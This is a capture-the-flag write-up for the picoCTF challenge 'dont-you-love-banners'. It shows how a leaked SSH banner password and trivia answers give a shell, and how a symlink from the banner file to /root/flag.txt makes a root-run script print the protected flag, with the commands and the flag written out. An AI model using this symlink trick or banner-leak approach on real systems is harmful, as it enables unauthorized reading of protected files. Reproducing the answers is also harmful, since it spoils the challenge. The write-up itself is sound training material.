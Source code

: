---
tags: []
---
# dont-you-love-banners

- **Description:** Can you abuse the banner?
- **Difficulty:** Medium

---

## 🔎 Solution
The first server contains leaked information. Upon connecting, we discover the password: `My_Passw@rd_@1234`.
```bash
> nc tethys.picoctf.net 53058
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Next, we connect to the second server. 
Here, we are prompted with a series of questions. 
Answering them correctly grants us shell access, allowing us to execute commands.
```bash
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```

Running `ls` in the home directory `~`, we find 2 files: `banner` and `text`. 
Upon inspection, neither file appears to contain the flag.
```bash
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
```  

Navigating to the `/root` directory, we discover 2 files: `flag.txt` and `script.py`. 
However, we don't have the necessary permissions to read `flag.txt`.
```bash
player@challenge:/root$ ls
ls
flag.txt  script.py
player@challenge:/root$ cat flag.txt    
cat flag.txt
cat: flag.txt: Permission denied
```

Examining `script.py`, we learn that it is responsible for displaying the server's welcome message upon user connection. 
Specifically, it reads and prints the contents of `/home/player/banner`, which we've already seen.
```python
 try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")
```

Since we cannot read `flag.txt` directly due to permission restrictions, we consider using a **[symbolic link](https://www.geeksforgeeks.org/how-to-symlink-a-file-in-linux/)** (*symlink*). 
A symlink is a special type of file that acts as a reference or shortcut to another file or directory.  
To exploit this, we delete the original banner file and create a symlink that points to `/root/flag.txt`:
```bash
player@challenge:~$ rm -rf banner
rm -rf banner
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ ls
ls
banner  text
```
This command creates a symbolic link named banner that redirects to the restricted `flag.txt`.  
Now, when a user connects to the server again, `script.py` reads the new banner - which is actually a symlink to `flag.txt`. 
As a result, the contents of the flag are displayed on connection, successfully revealing the flag.
```bash
> nc tethys.picoctf.net 55013
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}
```

## 🚩Flag
> `picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}`
